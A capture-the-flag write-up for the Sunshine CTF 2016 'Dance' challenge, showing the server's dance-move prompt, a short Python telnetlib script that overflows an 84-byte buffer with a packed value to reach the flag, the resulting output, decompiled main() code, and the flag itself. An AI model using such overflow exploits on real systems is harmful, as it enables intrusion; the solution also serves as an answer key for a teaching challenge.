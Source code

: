 ```yaml
---
title:   "Write-up - Sunshine CTF 2016 - Dance"
date:    2016-03-14 00:00:00
tags:    [Write-up, Sunshine CTF 2016]
summary: "Write-up about Sunshine CTF 2016 - Dance"
---
```


In this challenge, we have a binary file and we need to connect to an IP using Netcat; `nc 4.31.182.242 9001`. We have then the following message:

```
welcome to the pro club. you just paid a door fee and have no respect. earn ur cred on the dancefloor!
give us ur sick dance moves like so:
whip,naenae,whip,whip,naenae<ENTER>

whip,naenae,whip,naenae,whip
do the whip!
   (;P)
 8=/||\_
_/¯    ¯\_
do the naenae
(\)
  \(:O)
   /||\_
_/¯    ¯\_
do the whip!
   (;P)
 8=/||\_
_/¯    ¯\_
do the naenae
(\)
  \(:O)
   /||\_
_/¯    ¯\_
do the whip!
   (;P)
 8=/||\_
_/¯    ¯\_

cool dance! come again!
```

After performing a quick program analysis, we can see that we can perform a [buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow). We will use the following Python code to solve this challenge:

```
import telnetlib
import struct

x = lambda a: struct.pack('I', a)
host = "4.31.182.242"
port = "9001"

c = telnetlib.Telnet(host, port)
print c.read_until("<ENTER>")
c.write('A'*84)
c.write(x(0x12adaac9))
print c.read_all()
```

We will have then the following message which is the `main()` function of the binary file we have decompiled.

```
''' OUTPUT:
welcome to the pro club. you just paid a door fee and have no respect. earn ur cred on the dancefloor!
give us ur sick dance moves like so:
whip,naenae,whip,whip,naenae<ENTER>
girl u can dance w the best of em. the pw to our vip lounge is: sun{d4nc3_0n_th3_s7ack}
cool dance! come again!
'''

''' BONUS:
int main() {
    memset(input, 0x0, 0x50);
    printf("welcome to the pro club.");
    fgets(input, 0x59, stdin);
    while (strlen(input) > 0x0) {
        if (sign_extend_32(*(int8_t *)input) == 0x77) {
            input = input + 0x5;
            do_whip();
        }
        else {
            if (sign_extend_32(*(int8_t *)input) == 0x6e) {
                input = input + 0x7;
                do_naenae();
            }
            else {
                input = input + 0x1;
            }
        }
    }
    if (0x12adaac9 == 0x12adaac9) {
        if (0x0 != 0x0) {
            printf("FLAG FLAG FLAG\n");
        }
    }
    else {
        printf("those dance moves are some dark artsz kid\n");
    }
    printf("\ncool dance! come again!\n");
    return 0x0;
}
'''
```

The flag to solve this challenge is `sun{d4nc3_0n_th3_s7ack}`.
